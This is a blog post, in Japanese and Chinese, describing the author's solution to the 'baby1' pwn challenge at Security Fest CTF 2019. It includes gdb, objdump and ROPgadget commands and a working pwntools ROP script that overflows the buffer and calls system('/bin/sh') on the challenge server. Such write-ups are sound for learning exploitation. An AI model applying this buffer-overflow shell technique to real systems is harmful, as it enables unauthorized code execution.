 ```yaml
---
layout: post
title:  2019 Security Fest CTF Write-up
date:   2019-06-04 10:11:34 -0400
categories: CTF
---
```

今回のSecurity Fest CTF 2019で、私とSinonさんともう一人の友一緒にチームweRubb1shで参加しました。 321 ptsで803チーム中で108位でした。 私は一問を解けた。 そして初めてpwnを解けた、 でも私はまだまだですねw
![result](/images/SecurityFest2019/SecurityFestCTF.JPG)

這次是我第一次解掉pwn題，其實在Harekaze CTF 2019都在努力做，但一題也解不到

以下是窩解的題目

***

## [pwn] baby1 (Points: 146)

先把program run一次，看到"Rather ROP than RIP"，看來是ROP了
用checksec從下載下來的file看一下有什麼protection，這裡我忘了cap圖，所以pass掉

用gdb計一下要放多少個A在前面，開gdb然後做個string來overflow掉
```bash
$gdb -q baby1
gef> pattern create 150 #copy the string and paste to the input
```

之後跑那個program再input那段string，會有SIGSEGV的error出來
![gdbTest](/images/SecurityFest2019/gdbTest.PNG)

把rsp找出來再算他的offset
```bash
gef> x/gx $rsp
0x7fffffffdf18: 0x6161616161616164
gef> pattern offset 0x6161616161616164
```

把program放了在ida看了看，裡面有一個function(?)是能夠call system。而且也有/bin/sh在裡面 (沒cap圖)
用objdump把system的address找出來。其實也可以直接在objdump找有沒有system這東西
```bash
objdump -d baby1 | grep "system"
```
![objdumpSystem](/images/SecurityFest2019/objdump_system.png)

再用ROPgadget把/bin/sh的address找出來
```bash
ROPgadget --binary baby1 --string "/bin/sh"
```
![ROPbinsh](/images/SecurityFest2019/ROPbinsh.png)

將在做pop跟ret的address找出來，這次會用pop rdi，所以address是0x400793
```bash
ROPgadget --binary baby1 --only "pop|ret"
```
![ROPpopret](/images/SecurityFest2019/ROPpopret.png)

把找到的東西放在一起，以下是payload
```python
from pwn import *
import sys

elf = ELF('./baby1')
s = remote('baby-01.pwn.beer',10001)

rop_pop_rdi = 0x000400793	#addr of pop rdi
plt_system = 0x0004006ab	#addr of system
addr_binsh = 0x000400286	#addr of /bin/sh

payload = 'A' * 24
payload += p64(rop_pop_rdi)
payload += p64(addr_binsh)
payload += p64(plt_system)
print("[*] Payload: " + payload)
print "[*] Sending payload"
s.sendline(payload) 	#send payload

s.interactive()			#keep connection
```

結果如下
![runpayload](/images/SecurityFest2019/run.png)

***
但其實我還不太明白整個原理是怎樣，還在摸索中
所以就這樣吧~
